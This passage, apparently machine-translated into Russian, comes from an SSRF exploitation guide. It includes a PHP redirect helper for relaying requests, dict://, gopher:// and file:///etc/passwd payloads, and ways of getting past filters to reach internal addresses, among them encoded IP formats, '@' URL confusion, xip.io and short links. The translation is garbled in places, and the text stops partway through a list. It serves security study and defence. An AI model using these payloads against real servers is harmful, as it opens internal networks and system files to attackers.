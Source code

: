 Запрос порта, отличного от HTTP, может вернуть информацию баннера.

Или вы можете использовать переход 302, чтобы обойти ограничения протокола HTTP.

Вспомогательный скрипт

```php
<?php
$ip = $_GET['ip'];
$port = $_GET['port'];
$scheme = $_GET['s'];
$data = $_GET['data'];
header("Location: $scheme://$ip:$port/$data");
?>
```

[Уязвимость Tencent SSRF (очень хорошая точка использования) со сценарием](<https://_thorns.gitbooks.io/sec/content/teng_xun_mou_chu_ssrf_lou_6d1e28_fei_chang_hao_de.html>)

## Использование соглашения

- Диктовать соглашение

        ```text
        dict://fuzz.wuyun.org:8080/helo:dict
        ```

- Протокол суслика

        ```text
        gopher://fuzz.wuyun.org:8080/gopher
        ```

- Файловый протокол

        ```text
        file:///etc/passwd
        ```

## Обходная поза

1. Измените IP-адрес, например `192.168.0.1`
    - восьмеричный формат: `0300.0250.0.1`
    - Шестнадцатеричный формат: `0xC0.0xA8.0.1`
    - 10-значный целочисленный формат: `3232235521`
    - Шестнадцатеричный целочисленный формат: `0xC0A80001`
    - Также существует специальный режим пропуска, например `10.0.0.1`, который можно записать как `10.1`
2. Используйте URL-адрес для решения проблемы. В некоторых случаях серверная программа может анализировать доступный
   URL-адрес и фильтровать разрешенный адрес хоста. В это время параметры URL-адреса могут быть неправильно
   проанализированы, что может обойти фильтрацию. Например:
    - `http://www.baidu.com@192.168.0.1/` и `http://192.168.0.1` запрашиваются для `192.168.0.1`
    - Может указывать на любое IP-имя домена `xip.io:http://127.0.0.1.xip.io/`==&gt;`http://127.0.0.1/`
    - Краткий адрес `http://dwz.cn/11SMa`==&gt;`http://127.0.0.1`
    - Используйте точку `. `:`127.0.0.1`==&gt;`127.0.0.1`
    - Используйте заключенные буквенно-цифровые символы
    
